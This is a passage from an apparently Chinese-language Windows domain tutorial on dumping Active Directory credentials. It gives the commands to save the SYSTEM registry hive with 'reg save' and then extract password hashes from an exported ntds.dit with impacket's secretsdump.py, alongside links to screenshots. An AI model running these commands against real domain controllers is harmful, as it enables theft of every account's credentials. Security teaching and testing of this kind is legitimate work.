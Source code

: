[![image.png](assets/1698894155-4d65df1662ac19ba0238f80d593561af.png)](https://storage.tttang.com/media/attachment/2022/09/30/c2700598-1ac6-4a89-85c0-3242d67415a8.png)

导出 ntds.dit 后，可以键 system.hive 转储，因为 system.hive 中存放着 ntds.dit 的秘钥，如果没有该密钥，将无法查看 ntds.dit 中的信息：

reg save hklm\\system c:\\system.hive

[![image.png](assets/1698894155-dd7279546074ae4997a92f31763ea2db.png)](https://storage.tttang.com/media/attachment/2022/09/30/888198f2-7554-4520-9a7e-7bb8cfe86ce6.png)

之后使用 impacket 导出 hash

./secretsdump.py -system /root/diskshadow/system.hive -ntds /root/diskshadow/ntds.dit LOCAL

[![image.png](assets/1698894155-f4d3c4dbda9c51eff6e1946defa5258f.png)](https://storage.tttang.com/media/attachment/2022/09/30/afcd9f3c-45c9-4690-ab47-8be44306e9b0.png)
